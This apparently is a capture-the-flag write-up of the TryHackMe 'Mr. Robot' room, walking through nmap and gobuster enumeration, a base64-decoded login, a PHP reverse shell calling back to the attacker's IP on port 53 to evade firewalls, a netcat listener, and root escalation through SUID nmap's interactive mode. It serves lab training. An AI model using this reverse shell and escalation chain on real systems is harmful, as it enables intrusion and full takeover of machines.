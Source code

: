 # Mr. Robot – TryHackMe Walkthrough

## 🧠 Overview
This room is based on the Mr. Robot TV series...

...

OBJECTIVE:

In this room, we are tasked with gaining root access on a vulnerable machine. 
The steps involve network enumeration, web exploitation, and privilege escalation through a reverse shell, followed by privilege escalation using GTFOBins.

INITIAL ENUMERATION:
Step 1: Network Scanning with Nmap
We start by scanning the target IP to identify open ports and services. We use the following Nmap command:
                     
                     nmap -A <target_ip>
                     
Step 2: Directory Bruteforce with Gobuster
Next, we run Gobuster to find hidden directories on the target web server:

                     gobuster dir -u http://<target_ip> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
                     
This discovers directories and files that may be useful for further exploitation.
/robots
/readme
/license
/sitemap 
/login etc

step3:

                          http://<target_ip>/robots.txt

                          
you will find:
User-agent: *
fsocity.dic
key-1-of-3.txt

step 4:FINDING KEY 1

                http://ip/key-1-of-3.txt
                
                         OR 
                         
                Curl http://ip/key-1-of-3.txt

steP5:Finding Key 2 – /license Page

                http://<target_ip>/license
                
You’ll see a base64 encoded string, something like:

                ZGVwbG95ZXI6cm9ib3Q=
Decode It:

                echo ZGVwbG95ZXI6cm9ib3Q= | base64 -d
                
username:password     (HINT username is elloit)


 STEP5:Web Exploitation - Reverse Shell
 after visiting http://ip/login and entering the username and passwd we just found boom we are logged in.Now we have
 to look for weak spots and luckily it wasnt too hard to find one.In the editors menu(vertical left side on website)
 when visited it shows .php so we can look for a php exploit
 

STEP6:Setting Up the Reverse Shell

We find a PHP reverse shell script on GitHub (such as this one: PHP Reverse Shell on GitHub)
and copy the code into the vulnerable web application. Here's how we set it up:

Modify the PHP script to use our IP address and the port number 53 (chosen to avoid detection or blocking by firewalls).

The PHP reverse shell typically looks like this:
                           <?php
                           $ip = '<your_ip>';   // Your IP address here
                           $port = 53;          // Port to connect back to
                           $socket = fsockopen($ip, $port);
                           exec("/bin/sh -i <&3 >&3 2>&3");
                           ?>

                           
STEP7:SETTING UP A LISTENER:

Start the Netcat listener on your local machine to accept
incoming connections on port 53 (or any port of your choice):

                          nc -lvnp 53


STEP8:BYPASSING SU AND SUDO

Once the reverse shell is successfully initiated, we are connected to the target system, but we are restricted to a limited shell. 
We cannot use sudo or su commands to elevate our privileges. This is common when running a reverse shell from a web server.

To bypass these restrictions and get a fully functional TTY shell, we can use Python to spawn a fully interactive shell. 
This method works because the reverse shell is not fully interactive at this point.

                          python -c 'import pty; pty.spawn("/bin/bash")'

pty.spawn("/bin/bash"): This spawns a new shell that supports interactive commands like clear, ls, etc., 
which aren't available in the default reverse shell.


STEP9:Finding SUID Binaries

At this point, we have basic access to the system. To escalate privileges to root, we search for SUID binaries. 
These are executables that have the setuid bit set, which means they will run with the privileges of the file owner (typically root).
We can search for these binaries by running:

                           find / -perm -4000 2>/dev/null

find /: Searches the entire filesystem.

-perm -4000: Finds files with the setuid bit set.

2>/dev/null: Suppresses error messages (like permission denied).

This search may return results like /usr/bin/nmap or /usr/bin/ssh, indicating that these binaries
are setuid and may be useful for privilege escalation.


STEP10:USING NMAP WITH SUID:

In our case, we find that Nmap is setuid, meaning it can be executed with root privileges. By using the GTFOBins resource,
we find that Nmap can be exploited for privilege escalation.
We use Nmap’s interactive mode to escalate our privileges:

                               nmap --interactive
                               
--interactive: Starts Nmap in interactive mode, where we can run system commands as the root user.

Once in interactive mode, we have root access and can run system commands like

                            whoami, id, ls /root, and more.





